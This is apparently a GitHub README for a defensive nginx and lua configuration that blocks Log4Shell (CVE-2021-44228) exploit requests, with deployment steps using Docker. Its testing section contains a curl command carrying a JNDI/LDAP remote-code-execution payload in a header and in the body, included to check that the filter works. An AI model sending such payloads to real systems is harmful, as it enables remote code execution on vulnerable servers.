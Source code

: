 
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA applications. Nginx, with the help of lua module, will prevent the attacker to access vulnerable JAVA application.
Special thanks to [John H Patton
](https://johnhpatton.medium.com/) for the motivation to extend the solution he wrote to mitigate the Log4j vulnerability.


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). By following this guide, we can mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal application.


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.

We assume that the nginx is deployed in Docker throughout the document.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `https-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/nginx_volume_mount/`. 
For example if you have deployed nginx in Docker then there must be a section present called `Volumes:` in your docker-compose. For example:
```
volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
```

This is mounting a custom `https.conf` file to the build-in nginx `https.conf` file present under the directory: `/etc/nginx/conf.d/` in nginx container.

2. Now we need to modify `https.conf`. Update the `/path/to/nginx_volume_mount/https.conf` file by adding the following code in `https.conf`

```
include /etc/nginx/https-lua.conf
```



3. Now we need to update the `docker-compose.yml` file of the nignx. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
      - /path/to/nginx_volume_mount/https-lua.conf:/etc/nginx/https-lua.conf
      - /path/to/nginx_volume_mount/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/nginx_volume_mount/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/nginx_volume_mount/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/uri' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
This will show you the following response which indicates that the configurations are working in perfect manner.
```
 Expertflow Log4J Forbidden
```
